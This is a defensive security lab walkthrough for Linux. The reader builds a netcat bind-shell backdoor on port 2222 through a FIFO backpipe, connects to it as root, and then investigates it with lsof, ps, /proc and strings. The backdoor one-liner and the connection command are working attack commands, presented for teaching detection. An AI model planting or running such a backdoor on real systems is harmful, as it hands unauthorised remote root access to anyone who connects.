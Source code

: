 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator

![alt text](image-2.png)
![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###


On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basically, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, let's connect:

<pre> nc 172.30.249.49 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we successfully connected to the backdoor.  It just drops our cursor back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basically, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 131</pre>

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe</pre>

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















